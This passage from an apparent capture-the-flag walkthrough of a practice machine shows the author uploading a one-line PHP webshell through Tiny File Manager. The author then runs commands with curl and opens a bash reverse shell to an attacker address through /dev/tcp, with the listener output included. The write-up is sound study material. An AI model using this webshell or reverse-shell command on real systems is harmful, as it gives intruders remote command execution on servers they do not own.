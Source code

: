 ![image-20230604142515207](/img/image-20230604142515207.png)

The URL is `http://soccer.htb/tiny/tinyfilemanager.php?p=`, which shows that the server is running PHP.

The `tiny` directory has the filemanager page, as well as the `uploads` directory:

![image-20230604142608344](/img/image-20230604142608344.png)

`uploads` is empty:

![image-20230604142623505](/img/image-20230604142623505.png)

### Shell

I’ll make a simple PHP webshell:

```

<?php system($_REQUEST["cmd"]); ?>

```

I’ll use the “Upload” button, and it offers a way to upload:

![image-20230604142956658](/img/image-20230604142956658.png)

If I try to upload in `/var/www/html/`, it fails:

![image-20230604143018728](/img/image-20230604143018728.png)

If I navigate to `/tiny/uploads` and then click “Upload”, it works:

![image-20230604143115422](/img/image-20230604143115422.png)

The webshell provides execution:

```

oxdf@hacky$ curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I’ll start `nc` listening on 443 on my host, and trigger a reverse shell by sending a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

oxdf@hacky$ curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261"'

```

It hangs, but there’s a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.194 55140
bash: cannot set terminal process group (1048): Inappropriate ioctl for device
bash: no job control in this shell
www-data@soccer:~/html/tiny/uploads$ 

```
